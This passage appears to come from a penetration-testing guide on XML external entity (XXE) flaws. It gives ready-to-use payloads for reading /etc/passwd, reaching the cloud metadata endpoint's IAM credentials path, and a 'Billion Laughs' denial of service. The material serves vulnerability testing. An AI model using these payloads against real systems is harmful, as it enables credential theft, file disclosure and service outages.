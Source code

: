 Monitor your server for incoming requests from the vulnerable system.

## 5. Test for Protocol Exploits (SSRF or File Disclosure)
- Inject payloads that use different protocols such as `ftp://`, `file://`, or `http://` to attempt SSRF or file disclosure.

**Example (SSRF):**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ 
<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/"> ]>
<data>
  <user>&xxe;</user>
</data>
```

## 6. Test for Denial of Service (Billion Laughs)
- Test if the XML parser is vulnerable to recursive entity expansion by injecting a “Billion Laughs” payload.

**Example:**
```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
]>
<lolz>&lol2;</lolz>
```

# XXE Payloads

Here are some common XXE payloads used to exploit this vulnerability:

## Basic File Disclosure Payload
- Use this payload to read sensitive files on the server:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ 
<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<data>
  <user>&xxe;</user>
</data>
```

## SSRF via XXE (Access Internal Services)
- Use this payload to access internal services or cloud metadata:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ 
<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/"> ]>
<data>
  <user>&xxe;</user>
</data>
```
